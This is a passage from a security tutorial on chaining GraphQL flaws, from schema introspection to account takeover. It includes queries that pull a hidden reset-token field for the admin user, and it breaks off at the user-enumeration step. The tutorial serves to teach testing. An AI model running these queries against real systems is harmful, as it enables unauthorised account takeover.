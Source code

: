 ## Advanced Attack Scenarios

Let's explore some complex attack chains that combine multiple GraphQL vulnerabilities to achieve significant security breaches. These scenarios can be tested manually using Burp Suite.

### Scenario 1: Information Disclosure to Account Takeover

This attack chain demonstrates how GraphQL vulnerabilities can be combined to progress from initial information disclosure to full account takeover:

1. **Initial Reconnaissance**: The attacker uses introspection to discover the schema structure.

```graphql
query {
  __schema {
    types {
      name
      kind
      fields {
        name
      }
    }
  }
}
```

2. **Identify User Query**: The attacker discovers a `user` query that takes a username parameter.

```graphql
query {
  user(username: "admin") {
    id
    username
    email
  }
}
```

3. **Exploiting Over-fetching**: The attacker discovers they can request additional fields beyond what the UI normally shows.

```graphql
query {
  user(username: "admin") {
    id
    username
    email
    resetToken  # Sensitive field not intended for user access
    lastLogin
    role
  }
}
```

4. **Enumerating Users**: The attacker uses batching to efficiently enumerate valid usernames.
